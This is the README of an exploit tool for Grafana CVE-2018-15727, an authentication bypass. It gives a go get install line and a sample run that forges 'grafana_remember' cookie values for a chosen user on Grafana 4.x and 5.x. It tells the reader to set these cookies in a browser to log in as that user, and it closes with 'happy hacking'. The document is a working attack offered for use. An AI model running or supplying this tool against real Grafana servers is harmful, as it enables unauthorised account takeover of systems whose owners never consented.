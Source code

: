 # Grafana CVE-2018-15727 exploit
## Installation
```
$ go get github.com/u238/grafana-CVE-2018-15727
```

## Usage
```
$ source <(go env)
$ $GOPATH/bin/grafana-CVE-2018-15727 ldapadmin
[i] delete the grafana_sess cookie from your browser session
[i] set following cookies in you browser:
 * for Grafana 5.x:
   grafana_user      : ldapadmin
   grafana_remember  : 8947f2c6b81963b2a45f4293ced63802f0c923daa368a9beda748800335fc72c06ea186e43
 * for Grafana 4.x:
   grafana_user      : ldapadmin
   grafana_remember  : 8d26614cd6a92aaf892eebb066ae17ed65ef6c9bea73f875ed6698a907d807db0026787fc3
[+] happy hacking ;) 
```

## LICENSE

See LICENSE file.
